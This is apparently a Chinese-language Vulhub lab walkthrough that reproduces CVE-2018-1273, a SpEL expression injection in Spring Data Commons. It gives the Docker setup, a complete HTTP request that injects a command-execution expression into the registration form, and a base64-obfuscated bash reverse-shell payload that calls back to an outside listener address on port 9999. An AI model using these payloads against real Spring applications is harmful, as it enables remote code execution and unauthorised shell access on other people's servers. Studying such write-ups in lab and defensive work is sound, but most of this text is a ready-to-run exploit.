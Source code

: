 # Spring Data Commons 远程命令执行漏洞 CVE-2018-1273

## 漏洞描述

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

Vulhub执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8080/users`，将可以看到一个用户注册页面。

![image-20220301152041573](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011520665.png)

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/awesome_poc")]=&password=&repeatedPassword=
```

![image-20220301152743774](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011527857.png)

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/awesome_poc`，说明命令执行成功：

![image-20220301152752322](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011527377.png)

构造反弹shell的Payload（**注意**，Base64编码后需要再进行URL编码，否则将反弹失败）：

```
# URL编码前
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# URL编码后
bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}
```

```
# Payload
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
```

监听9999端口，成功接收反弹shell：

![image-20220301153412308](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011534428.png)